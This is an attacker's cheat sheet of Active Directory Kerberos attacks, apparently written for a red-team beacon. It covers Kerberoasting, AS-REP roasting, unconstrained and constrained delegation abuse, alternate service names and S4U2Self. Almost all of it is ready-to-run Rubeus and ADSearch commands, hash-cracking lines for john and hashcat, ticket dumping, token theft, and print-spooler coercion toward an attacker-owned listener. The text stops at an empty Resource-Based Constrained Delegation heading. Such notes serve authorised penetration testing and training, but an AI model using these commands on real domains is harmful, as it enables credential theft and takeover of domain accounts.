 # Kerberos notes

**Kerberoasting**

Request the TGS for services running under the context of domain accounts to crack offline

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /simple /nowrap
```

--format=krb5tgs --wordlist=wordlist hashes for john or -a 0 -m 13100 hashes wordlist 

```
john --format=krb5tgs --wordlist=wordlist mssql_svc
hashcat -a 0 -m 13100 hash wordlist
```

opsec consideration, query users first then roast them
```
execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=user)(servicePrincipalName=*))" --attributes cn,servicePrincipalName,samAccountName
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /user:<User> /nowrap
```

**ASREP Roast**

Users with no kerberos pre-auth can be requested and their can be cracked offline

This will start with a query then a roast
```
execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" --attributes cn,distinguishedname,samaccountname
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asreproast /user:<User> /nowrap
```

crack --format=krb5asrep --wordlist=wordlist squid_svc for john or -a 0 -m 18200 squid_svc wordlist for hashcat
```
john --format=krb5asrep --wordlist=wordlist hash
hashcat -a 0 -m 18200 hash wordlist
```

**Unconstrained Delegation**

A machine or user is allowed to act on the behalf of another with no restrictions

search for all computers with this
```
execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname
```

an example exploit of it being used to steal another users session by abusing a machine other users interact with
```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x14794e /nowrap
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:<user> /password:FakePass /ticket:doIFwj[...]MuSU8=
steal_token 1540
```

stealing TGT's by forcing them to auth to this machine we popped
```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /interval:10 /nowrap
execute-assembly C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe <target> <attacker owned listener>
```

**Constrained Delegation**

Similar to unconstrained but the delegation attempts to restrict services the server can act on behalf of a user

To find computers configured for constrained delegation, search for those whose  msds-allowedtodelegateto attribute is not empty.
```
execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=computer)(msds-allowedtodelegateto=*))" --attributes dnshostname,samaccountname,msds-allowedtodelegateto --json
```

To perform we need the TGT of the principal trusted for delegation, use Rubeus for this
```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e4 /service:krbtgt /nowrap
```

Now use S4U to obtain a TGS for CIFS for the DC for a domain admin, then run another S4UProxy ticket and pass it into a new logon session, and of course steal it's token
Make sure to always use the FQDN afterwards, or you will get errors
```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:<domain admin wanted to impersonate> /msdsspn:cifs/<DC domain name> /user:<current user with constrained delegation> /ticket:doIFLD[...snip...]MuSU8= /nowrap
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:<domain admin wanted to impersonate> /password:FakePass /ticket:doIGaD[...]ljLmlv
steal_token 5540
```

**Alternate Service Name**

The SPN information in the ticket is not encrypted and can be changed arbitrarily.  We can request a service ticket for a service, such as CIFS, but then modify the SPN to something different, such as LDAP, and the target service will accept it 
```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:<domain admin wanted to impersonate> /msdsspn:cifs/<DC domain name> /altservice:ldap /user:<current user> /ticket:doIFpD[...]MuSU8= /nowrap
```

**S4U2Self Abuse**

Rubeus being used to abuse the S4U2Self to obtain a usable TGS as a local admin user using the /self flag  
```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:<user> /self /altservice:cifs/<dc domain name> /user:<delegation user> /ticket:doIFuj[...]lDLklP /nowrap
steal_token <PID>
```

**Resource-Based Constrained Delegation**


